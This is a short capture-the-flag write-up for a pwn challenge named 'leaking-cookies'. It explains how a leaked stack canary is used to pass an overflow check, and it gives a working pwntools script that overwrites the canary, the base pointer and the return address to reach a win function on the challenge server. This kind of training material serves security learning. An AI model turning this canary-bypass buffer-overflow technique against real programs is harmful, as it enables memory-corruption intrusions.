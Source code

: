 # Summary 
For this pwn challenge we need to use leaked cookies in order to bypass the check for an overflow inside of a program.

# Pathway
The path we need to take for this program is that we are given multiple addresses from the program and by looking at the code (or by guessing and checking) you can find that the third to last entry is the stack cookie. From there we can overwrite the stack cookie, continue to overrite the base pointer, then add a malicous return address to the win function to get the flag

# Script
```python
from pwn import *

if __name__ == "__main__":
    context.log_level = "error"
    # io = process("./leaking-cookies")
    io = remote("chal.ctf-league.osusec.org", 1335)
    
    # grab info
    provided_addrs = io.recvlineS(False)
    print(provided_addrs)
    
    # stack cookie is third to last
    cookie = int(provided_addrs.split()[-3], 16)
    print(cookie)
    
    exe = ELF("./leaking-cookies")
    win_addr = exe.symbols["win"]
    # overflow + cookie + base pointer + malicious return address
    payload = b"A"*24 + p64(cookie) + p64(0xdeadbeef) + p64(win_addr)
    
    io.sendline(payload)
    print(io.recvuntil(b"}").decode())
```